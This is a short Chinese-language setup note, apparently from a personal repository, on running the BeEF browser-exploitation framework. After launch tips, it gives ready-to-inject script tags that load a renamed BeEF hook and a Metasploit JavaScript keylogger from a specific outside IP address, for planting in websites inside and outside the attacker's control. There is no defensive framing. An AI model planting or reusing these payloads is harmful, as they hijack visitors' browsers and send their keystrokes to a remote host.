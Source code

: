 beef的配置
=======

可能需要手动安装
```bash
gem install em-websocket
```
来解决问题

不知为何，打开程序一定要在root用户中通过
```bash
nohup ./beef &
```
来实现，而不能使用完整路径如
```bash
nohup /usr/share/beef-xss/beef &
```

## 使用的script
在网站内部使用
```javascript
<script>
	var commandModuleStr = '<script src="' + window.location.protocol + '//' + window.location.host + '/hokasa.js" type="text/javascript"><\/script>';
	document.write(commandModuleStr);
</script>
```
在网站外部使用
```javascript
<script src="139.162.69.124/hokasa.js"> </script>
```

# msf的keylogger的地址
```javascript
<script type="text/javascript" src="http://139.162.69.124:8080/[ReplaceThis]/[whatever].js">
```
具体可以参考网址
https://community.rapid7.com/community/metasploit/blog/2012/02/21/metasploit-javascript-keylogger
